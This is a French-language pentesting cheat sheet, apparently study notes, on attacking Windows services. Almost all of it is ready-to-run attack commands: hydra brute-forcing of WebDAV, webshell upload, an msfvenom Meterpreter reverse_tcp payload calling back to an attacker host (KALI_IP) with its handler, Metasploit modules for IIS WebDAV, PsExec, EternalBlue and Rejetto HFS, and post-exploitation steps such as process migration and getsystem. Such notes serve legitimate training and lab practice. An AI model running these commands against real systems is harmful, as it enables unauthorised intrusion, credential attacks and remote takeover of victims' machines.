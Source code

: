 # 🪟 Vulnérabilités Windows

[← Retour à la table des matières](../README.md)

## Types d'attaques Windows

### 🎯 Catégories principales
- **Information Disclosure** : Fuite d'informations sensibles
- **Buffer Overflow** : Débordement de tampon
- **Remote Code Execution** : Exécution de code à distance
- **Privilege Escalation** : Élévation de privilèges
- **Denial of Service** : Déni de service

## Exploitation de services Windows

### IIS WebDAV
```bash
# Scan initial
nmap -sV -sC targetIP
nmap -sV -p 80 --script=http-enum targetIP

# Bruteforce WebDAV si authentification requise
hydra -L /usr/share/wordlists/metasploit/common_users.txt -P /usr/share/wordlists/metasploit/common_passwords.txt targetIP http-get /webdav/

# Test des capacités WebDAV
davtest -auth user:password -url http://targetIP/webdav

# Upload de webshell
cadaver http://targetIP/webdav
# Dans cadaver :
put /usr/share/webshells/asp/webshell.asp
```

### Meterpreter via WebDAV
```bash
# Génération du payload
msfvenom -p windows/meterpreter/reverse_tcp LHOST=KALI_IP LPORT=1234 -f asp > shell.asp

# Upload via cadaver
cadaver http://targetIP/webdav
put /path/to/shell.asp

# Handler Metasploit
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST KALI_IP
set LPORT 1234
run
```

### Module MSF automatique WebDAV
```bash
use exploit/windows/iis/iis_webdav_upload_asp
set HTTPUSERNAME username
set HTTPPASSWORD password
set RHOSTS targetIP
set PATH webdav/metasploit.asp
run
```

## SMB avec PsExec
```bash
# Nécessite des credentials légitimes (user/password ou hash)

# Test de login SMB
use auxiliary/scanner/smb/smb_login
set RHOSTS targetIP
set SMBUser administrator
set SMBPass password
run

# PsExec avec Impacket
psexec.py administrator@targetIP cmd.exe

# PsExec avec Metasploit
use exploit/windows/smb/psexec
set RHOSTS targetIP
set SMBUser administrator
set SMBPass password
run
```

## MS17-010 EternalBlue

### Détection
```bash
# Nmap script
nmap -sV -p 445 --script=smb-vuln-ms17-010 targetIP

# Metasploit scanner
use auxiliary/scanner/smb/smb_ms17_010
set RHOSTS targetIP
run
```

### Exploitation
```bash
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS targetIP
run
```

## Exemple d'exploitation HFS

### Recherche d'exploits
```bash
# Recherche avec searchsploit
searchsploit hfs

# Résultats typiques :
# HFS (HTTP File Server) 2.3.x - Remote Command Execution
# Rejetto HTTP File Server (HFS) - Remote Command Execution (Metasploit)
```

### Exploitation avec Metasploit
```bash
use exploit/windows/http/rejetto_hfs_exec
set RHOSTS targetIP
run
# Obtention d'un meterpreter
```

### Post-exploitation
```bash
# Migration vers explorer.exe
ps -S explorer.exe
migrate PID_FOUND

# Tentative d'élévation de privilèges
getsystem

# Si getsystem échoue, vérifier les groupes
shell
net localgroup administrators
```